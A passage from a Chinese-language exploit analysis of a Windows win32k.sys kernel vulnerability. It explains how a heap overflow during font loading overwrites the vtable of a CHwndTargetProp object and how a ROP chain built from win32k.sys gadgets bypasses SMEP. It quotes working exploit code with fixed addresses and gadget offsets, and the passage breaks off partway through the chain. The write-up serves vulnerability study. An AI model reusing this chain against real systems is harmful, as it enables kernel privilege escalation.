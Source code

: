 前面我们说到，加载字体过程中赋值内存可以覆盖后面的对象，因为我们已经经过了精心的堆布局，因此我们可以就可以覆盖特定的`CHwndTargetProp`的虚表，来实现将其虚表成员函数替换为我们想要执行的函数。 这里字体中覆盖的数据内容为固定的`0x0000000042005000`，那么通过在这个固定的内存位置构架假的虚表，我们就可以获得执行权限 我们可以看到，在攻击代码中，在固定位置（PAYLOAD_BASE)分配内存，并构建假的虚表的过程：

```
1   #define PAYLOAD_BASE 0x42000000
2    
3   *(ULONGLONG*)(PAYLOAD_BASE + 0x5000) = win32k_base_addr + 0x19fab; // pop rax # ret <-- RAX [win32k!CHwndTargetProp::Delete]
4   *(ULONGLONG*)(PAYLOAD_BASE + 0x5008) = win32k_base_addr + 0x6121; // xchg rax, rsp # ret (pivot) <-- this is where (1st) CALL jumps to. [win32k!CHwndTargetProp::GetAtom]

```

当`CHwndTargetProp`的虚表被覆盖后，攻击代码再调用`DestroyDCompositionHwndTarget`函数来释放`CHwndTargetProp`，此时最终调用到内核中，就会跳转到攻击代码已经设置好的虚表函数。

整个过程中，会先调用`win32k!CHwndTargetProp::GetAtom`然后再调用`win32k!CHwndTargetProp::Delete`。

总共过程中会有3次调用到`CHwndTargetProp`的虚表函数：

DestroyDCompositionHwndTarget过程：

第一次： win32k!CHwndTargetProp::GetAtom

第二次: win32k!CHwndTargetProp::Delete

DeatoryWindow过程：

第三次：`win32k!CHwndTargetProp::Delete`

为了绕过Windows8 系统的SMEP保护，这里虚表函数不能使用位于ring3的ShellCode，因此需要使用`win32k.sys`中的代码片段构建ROP，关闭SMEP， 这也就是为什么攻击代码中需要利用我们一开始说的win32k.sys的KASLR绕过漏洞： 为了构建这里所需要的ROP链。 整个构建ROP链的过程如下：

第一步：获取ntoskrnl的函数地址，这里是通过泄露的win32k.sys的地址，硬编码得到win32k.sys中对`ntoskrnl!ExAllocatePoolWithTag`的导入表的地址，然后操作ROP链读取函数地址：

```
1   *(ULONGLONG*)(PAYLOAD_BASE + 0x5010) = win32k_base_addr + 0x19fab;   // pop rax # ret  (RAX is source for our write)
2   *(ULONGLONG*)(PAYLOAD_BASE + 0x5018) = win32k_base_addr + 0x352220;  // pop into rax   (pointer to leaked address of `ntoskrnl!ExAllocatePoolWithTag` that win32k imports)
3   *(ULONGLONG*)(PAYLOAD_BASE + 0x5020) = win32k_base_addr + 0x98156;   // pop rcx # ret  (RCX is destination for our write)
4   *(ULONGLONG*)(PAYLOAD_BASE + 0x5028) = PAYLOAD_BASE + 0x100;         // pop into rcx   (memory to write leaked address)
5   *(ULONGLONG*)(PAYLOAD_BASE + 0x5030) = win32k_base_addr + 0xc432f;   // mov rax, [rax] # mov [rcx], rax # ret (write gadget to [RCX])

```

第二步：因为后面的流程还会调到虚表,必须先修复栈,让第二次调用函数正常返回。

```
01      *(ULONGLONG*)(PAYLOAD_BASE + 0x5038) = win32k_base_addr + 0x14db;    // pop rbx # ret
02       *(ULONGLONG*)(PAYLOAD_BASE + 0x5040) = PAYLOAD_BASE + 0x5100;        // this will clobber the existing vTable object pointer (RBX) ---------------------
03                                                                        //                                                                                |
04  // Setup the new fake vTable at 0x42005100. We don't do anything interesting                                                                            |
05  // with the second call. We just want it to return nicely.                                                                                              |
06       *(ULONGLONG*)(PAYLOAD_BASE + 0x5100) = PAYLOAD_BASE + 0x5110;        // double-dereference to get to gadget                          (actual ROP chain |
07       *(ULONGLONG*)(PAYLOAD_BASE + 0x5108) = PAYLOAD_BASE + 0x5110;        // (arbitrary pointer to pointer)                                 continues here) |
08       *(ULONGLONG*)(PAYLOAD_BASE + 0x5110) = win32k_base_addr + 0x6e314;   // (`RET` gadget)                                                                 |
09                                                                        //                                                                                |
```